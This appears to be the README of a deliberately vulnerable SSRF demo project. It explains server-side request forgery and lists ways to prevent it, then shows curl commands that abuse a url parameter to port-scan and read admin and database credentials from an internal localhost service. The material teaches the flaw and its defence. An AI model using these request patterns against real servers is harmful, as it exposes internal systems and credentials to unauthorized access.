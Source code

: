 # What is SSRF?

Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.

Criminals usually use SSRF attacks to target internal systems that are behind firewalls and are not accessible from the external network.
Typical exploitation of a server-side request forgery vulnerability

In a typical SSRF scenario, an external attacker who wants to access an internal server can’t use direct requests because they would be blocked by the firewall. Instead, malicious actors can exploit an SSRF vulnerability to make their attack via a vulnerable web server:


![SSRF](ssrf.png)


### Steps :
* The attacker sends a forged request to a web server that is vulnerable to SSRF and resides on the same internal network as the target server.
* The vulnerable web server sends the attacker-controlled request to the victim’s server, bypassing the firewall.
* The victim’s server responds to the web server with the requested data.
If the specific SSRF vulnerability permits it, the data is sent back to the attacker. In most cases, the attacker will need to exfiltrate or infer this information by other means (out-of-band).


## Why is server-side request forgery dangerous?
While many web vulnerabilities directly affect the target system, SSRF allows attackers to use the target as an intermediary that passes requests to a third system. So while an SSRF attack might not be damaging in itself, it can provide malicious hackers with access to internal systems that were never supposed to be accessible from the Internet. There are several reasons why this is dangerous.

### Prevent:
To prevent SSRF vulnerabilities in web applications, it is recommended to adhere to the following guidelines:
* Use a whitelist of allowed domains, resources and protocols from where the web server can fetch resources.
* Any input accepted from the user should be validated and rejected if it does not match the positive specification expected.
* If possible, do not accept user input in functions that control where the web server can fetch resources.

## Example

We have created three service for demo purpose

1. **public-web-service** : This service is exposed on internet
2. **internal-user-service** : This service is not exposed to internet but the resources can be accessible by **public web server**
3. **internal-admin-service** : This service is not exposed to internet. Attacker will try to access this service and retrive sensitive data by ssrf attack.

In a internal user service, we have a userdetails endpoint which will provide user related basic information.

### Get User Information
```java
curl http://localhost:8080/api/users?url=http://localhost:8081/api/userDetail/0
```
### Response
```json
{'name':'User-0','id':'0'}
```

### Get User Address
```java
curl http://localhost:8080/api/users?url=http://localhost:8081/api/userAddress/0
```

### Response
```json
{'address':'Ahmedabad, India','id':'0'}
```

#Attack

**Attacker will try to scan multiple ports via changing port number in url like below and he founds `8083` is reachable port.
He will try to get `adminDetail` using below endpoint.**


### Admin Details
```json
curl http://localhost:8080/api/users?url=http://localhost:8083/api/adminDetail
```

```json
{'username':'admin','password':'OhMyGod@123'}
```

### Db Sensitive Details
```json
curl http://localhost:8080/api/users?url=http://localhost:8083/api/dbDetail
```

```json
{'dbName':'controller','host':'10.0.1.35','username':'root', 'password':'XSuper@#12345', 'port':'5432'}
```

curl localhost:8080/management/mappings

**Useful Links**
https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf


